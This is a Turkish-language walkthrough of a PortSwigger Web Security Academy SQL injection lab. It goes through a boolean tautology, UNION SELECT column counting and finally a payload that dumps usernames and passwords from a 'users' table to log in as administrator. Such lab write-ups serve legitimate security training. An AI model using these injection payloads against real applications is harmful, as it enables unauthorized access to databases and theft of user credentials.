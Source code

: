```html
SELECT * FROM x WHERE y = 'accessories' and 1=1--'
```

Gördüğünüz gibi bu ifadeyi yazmak burada bizim için yeterli oldu.

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 4.png)

Buradaki kaynakta da faydalı sql ipuçlarını bulabilirsiniz: [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Şimdi bu kısmı da anladıktan sonra tekrar incelemeye devam edelim.

```html
academy.net/filter?category=Corporat' UNION SELECT null--
```

parametreden sonra bu şekilde bir ifade yazdığımızda tekrar hata almaktayız. kolon sayılarının eşit olmamasından dolayı oluşan bir hatadır bu. 

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 5.png)

UNION ifadesinden sonraki SELECT sorgusunda kolon sayısını ikiye çıkardığımızda hatanın çözüldüğünü görmekteyiz. Dolayısıyla kolon sayısını da bulmuş olduk.

```html
academy.net/filter?category=Corporat' UNION SELECT null,null--
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 6.png)

Bizden önceki SELECT sorgusundan herhangi bir veri gelmemesi için de o kısma alakasız bir değer vererek veri gelmesini önleyebiliriz, bu sayede sadece istediğimiz verilerin gelmesini sağlayarak daha temiz bir sayfa üzerinde çalışabiliriz.

```html
academy.net/filter?category=alakasizbirdeger' UNION SELECT null,null--
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 7.png)

lab ortamında bizden ‘users’ tablosundaki ‘username’ ve ‘password’ alanlarını getirmemiz istenmişti. Dolayısıyla null yerine bu kolonları yazıp sonuçları getirebiliriz.

```html
academy.net/filter?category=alakasizbirdeger' UNION SELECT username,password FROM users--
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 8.png)

Görmüş olduğunuz üzere veritabanındaki kayıtları getirebilmiş olduk. Bu şekilde administrator hesabıyla giriş yaptığımızda lab ortamı çözülmüş olacaktır.

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 9.png)

# Lab: SQL injection UNION attack, retrieving multiple values in a single column
